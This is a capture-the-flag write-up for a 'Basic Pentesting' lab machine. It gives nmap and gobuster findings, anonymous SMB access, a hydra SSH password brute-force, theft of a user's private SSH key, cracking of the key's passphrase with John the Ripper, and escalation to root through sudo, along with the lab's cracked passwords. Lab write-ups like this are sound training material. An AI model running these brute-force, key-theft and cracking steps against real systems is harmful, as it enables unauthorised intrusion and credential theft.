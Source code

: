 # Basic Pentesting

## nmap

```
Port 22 SSH
Port 80 HTTP
Port 139 Samba
Port 445 Samba
Port 8009 AJP
Port 8080 HTTP Apache Tomcat 9.0.7
```
## gobuster
Initial page under construction.
```
/development
```
Two files:
dev.txt
```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```
j.txt
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```
## smbmap

```
smbmap -H <IP>
```
Provides Anonymous account

```
smbclient //<IP>anonymous
```
Provides staff.txt letter confirming two usernames - Jay and Kay

## hydra

```
hydra -t 4 -l jan -P <rockyou.txt directory> ssh://<MACHINE IP>
```
Provides Jan's password *armando*

## ssh

Logging into Jan's account does not show anything and also no ability to sudo.

Investigate /home directory and we find Kay:
```
pass.bak
.ssh
```
Copy id_rsa from .ssh file and save on attacker computer.

## john the ripper

Hash the key with the following command:
```
python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash 
```
Now use John to crack the hash. This only provides the passphrase for the public key.

```
/usr/sbin/john --wordlist=/root/Desktop/dict/rockyou.txt id_rsa.hash
```
We find beeswax is the passphrase.

## enumeration
Now login from Jan on the target host using:
```
ssh -i /home/kay/.ssh/id_rsa kay@<IP>
```
We now have Kay's account. Remember the pass.bak. Cat this:
```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```
Now see what we can do with sudo -l:

```
User kay may run the following commands on basic2:
  (ALL : ALL) ALL
```
So we have full control, just switch to root and after looking in the /root folder we have a congratulations flag.

